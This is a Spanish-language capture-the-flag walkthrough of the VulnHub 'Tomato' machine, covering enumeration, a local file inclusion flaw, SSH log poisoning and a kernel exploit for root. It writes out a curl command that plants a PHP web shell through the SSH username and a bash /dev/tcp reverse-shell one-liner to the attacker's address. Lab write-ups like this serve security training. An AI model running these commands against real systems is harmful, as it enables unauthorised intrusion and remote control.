 #ctf-machine #vulnhub #easy-machine #linux  [Vulnhub Link](https://www.vulnhub.com/entry/tomato-1,557/)

## Enumeración inicial
Para identificar la IPv4 de la máquina objetiva primeramente hacemos un escaneo ARP con `arp-scan`:
![[Pasted image 20240823112122.png]]

Como el OUI de la MAC es "00:0c" sabemos que se trata de la máquina objetiva, ya que las máquinas que se importan en VMWare contienen este OUI.

Para probablemente identificar el sistema operativo de la máquina, lanzamos una traza ICMP con `ping`:
![[Pasted image 20240823112359.png]]

Como el TTL = 64 podemos decir que probablemente se trate de una máquina Linux.

### Nmap
Por lo que hacemos un primer escaneo con `nmap` para detectar los puertos TCP abiertos de la máquina:
![[Pasted image 20240823112617.png]]

Como podemos ver hay 4 puertos abiertos, el puerto 21,80,2211 y 8888. Una vez identificados los puertos abiertos, hacemos un segundo escaneo con `nmap` para detectar la versión y servicio que corren para estos puertos:
![[Pasted image 20240823112828.png]]

Como podemos ver por el puerto 2211 se está ejecutando el servicio "OpenSSH 7.2p2" que es vulnerable a enumeración de usuarios:
![[Pasted image 20240823113059.png]]

## Enumeración web
Si accedemos a la web podemos ver una foto de un tomate 🍅:
![[Pasted image 20240823113312.png]]

Si hacemos fuzzing con `gobuster` y el diccionario "medium" en busca de directorios y archivos no encontramos nada interesante:
![[Pasted image 20240823114615.png]]

Si probamos otro diccionario con `gobuster` encontramos lo siguiente:
![[Pasted image 20240823120057.png]]

Si accedemos a `/antibot_image` podemos ver lo siguiente:
![[Pasted image 20240823122020.png]]

Si accedemos a `/antibot_image/antibots`:
![[Pasted image 20240823121936.png]]

Si accedemos a `/antibot_images/antibots/info.php` vemos el "phpinfo":
![[Pasted image 20240823122111.png]]

Sorprendentemente, si miramos el código fuente vemos un comentario 💀:
![[Pasted image 20240823122148.png]]

Por lo que si utilizamos este parámetro "image" y apuntamos a un archivo como `/etc/passwd` vemos el contenido en la web:
![[Pasted image 20240823122254.png]]

Por lo que podemos intentar hacer un *log poisoning* si podemos listar algún *log*. Si apuntamos a `/var/log/auth.log` podemos ver los *logs* de inicio de sesion con SSH:
![[Pasted image 20240823122439.png]]

Por lo que podemos generar un *log* con código PHP al intentar autenticarnos por SSH para conseguir RCE:
![[Pasted image 20240823124034.png]]
Pero como podemos ver las nuevas versiones SSH controlan que no se introduzcan carácteres inválidos por lo que buscando encontré esta alternativa:
https://stackoverflow.com/questions/77948173/how-to-perform-ssh-log-poisoning-for-rce-with-lfi-using-php-system-call-in-usern
```bash
curl -u '<?php system($_GET["cmd"]);?>' sftp://192.168.159.141:2211/anything -k
```

Por lo que si ejecutamos el comando "whoami" vemos que tenemos ejecución remota de comandos:
![[Pasted image 20240823124743.png]]

Por lo que podemos entablarnos una *reverse* *shell* introduciendo en el parámetro "cmd" el comando:
```bash
bash -c 'bash -i >& /dev/tcp/192.168.159.131/443 0>&1'
```

Y si nos ponemos en escucha con `nc` obtenemos acceso a la máquina:
![[Pasted image 20240823124938.png]]

Por lo tanto, hacemos el tratamiento de la TTY:
![[Pasted image 20240823125114.png]]
![[Pasted image 20240823125149.png]]

## Privilege escalation
Si listamos la versión de kernel del sistema podemos ver que se trata de la versión "Linux 4,4.0-21" por lo que si buscamos por *exploits* de kernel encontramos:
![[Pasted image 20240823150513.png]]

Por lo que si compilamos el código del *exploit*:
![[Pasted image 20240823150544.png]]

Y lo transferimos a la máquina víctima y lo ejecutamos obtenemos una `sh` con root:
![[Pasted image 20240823150659.png]]

Finalmente, si accedemos a `/root` podemos visualizar la *flag*:
![[Pasted image 20240823150746.png]]

___
#log-poisoning #local-file-inclusion #information-leakage #kernel-explotation #web-enumeration 
___